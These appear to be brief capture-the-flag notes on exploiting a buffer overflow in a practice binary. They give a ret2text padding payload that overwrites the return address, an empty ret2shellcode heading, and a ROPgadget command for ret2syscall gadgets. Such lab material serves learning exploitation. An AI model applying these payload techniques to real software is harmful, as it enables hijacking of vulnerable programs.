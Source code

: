 # IIS2022
# Method 1 ret2text
反编译得到overflow函数中copy字符串距离ebp的长度为0x30
输入'a' * 0x30 + 'b' * 0x08 + 0x000000000040121E 填充
将返回地址修改为 system 指令所在地址

# Method 2 ret2shellcode


# Method 3 ret3syscall
https://www.dazhuanlan.com/zhjnlb/topics/1242953
ROPgadget --binary ret2syscall --only "pop|ret" | grep "rax"
